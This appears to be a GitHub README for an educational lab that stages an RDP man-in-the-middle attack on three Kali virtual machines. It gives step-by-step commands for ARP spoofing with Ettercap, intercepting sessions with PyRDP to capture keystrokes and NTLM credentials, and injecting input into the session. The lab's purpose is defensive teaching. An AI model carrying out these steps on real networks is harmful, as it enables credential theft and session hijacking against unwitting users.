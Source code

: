 
# RDP MITM Attack Project

## Objective
Demonstrate a Man-in-the-Middle (MITM) attack on a Remote Desktop Protocol (RDP) session to capture sensitive data and highlight the importance of securing remote connections.

## Prerequisites
- **Operating System**: Kali Linux (3 virtual machines)
- **Tools**:
  - PyRDP (RDP MITM tool)
  - Ettercap (ARP spoofing)
  - Remmina (RDP client)
  - Wireshark (optional, for traffic analysis)
  - xRDP (RDP service on the server machine)

---

## Installation Steps

### Step 1: Environment Setup

#### Install xRDP on Machine A (Server)
```bash
sudo apt update
sudo apt install xrdp -y
sudo systemctl enable xrdp
sudo systemctl start xrdp
sudo ufw allow 3389/tcp
```

#### Verify xRDP Installation
```bash
sudo systemctl status xrdp
```

#### Install Remmina on Machine B (Client)
```bash
sudo apt update
sudo apt install remmina remmina-plugin-rdp -y
```

#### Install Tools on Machine C (MITM)
```bash
sudo apt update
sudo apt install ettercap-text-only -y
pip install pyrdp
sudo apt install wireshark -y
```

---

### Step 2: ARP Spoofing Configuration on Machine C

#### Launch Ettercap
```bash
sudo ettercap -G
```
1. Select Network Interface.
2. Scan for Hosts in the Network.
3. Add Target 1: Machine A (Server).
4. Add Target 2: Machine B (Client).
5. Enable ARP Spoofing.

---

### Step 3: Launch PyRDP on Machine C
```bash
pyrdp-mitm --output-dir ./logs
```

---

### Step 4: Establish RDP Connection from Machine B to Machine A
1. Launch Remmina on Machine B.
2. Configure RDP Connection to the IP of Machine A.

---

### Step 5: Monitor and Analyze Traffic on Machine C

#### View Logs Captured by PyRDP
```bash
ls ./logs
```

#### Analyze Captured Keystrokes and Credentials
```bash
cat ./logs/mitm.log
cat ./logs/ntlmssp.log
```

#### Optional: Analyze Network Traffic with Wireshark
```bash
sudo wireshark
```

---

### Step 6: Inject Commands into RDP Session
```bash
pyrdp-inject --target <Target IP> --message "Hello from MITM"
```

---

### Additional Verification Commands

#### Verify ARP Table on Machine B
```bash
arp -a
```

#### Verify Open Ports on Machine A
```bash
sudo netstat -tuln | grep 3389
```

#### Check Network Connectivity
```bash
ping <IP of Machine A>
```

---

## Conclusion
This project demonstrates the vulnerability of RDP sessions to MITM attacks when proper security measures are not implemented. By following this guide, users can understand how attackers exploit insecure configurations and can take proactive steps to secure remote connections using encryption, strong authentication, and network segmentation.

## References
- [PyRDP Documentation](https://github.com/GoSecure/pyrdp)
- [Ettercap Official Website](https://www.ettercap-project.org/)
- [Wireshark User Guide](https://www.wireshark.org/docs/)
- [Kali Linux Tools](https://tools.kali.org/)

---

## License

This project is licensed under the MIT License. See the details below:

```
MIT License

Copyright (c) 2025 Aswath P Raj

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
```
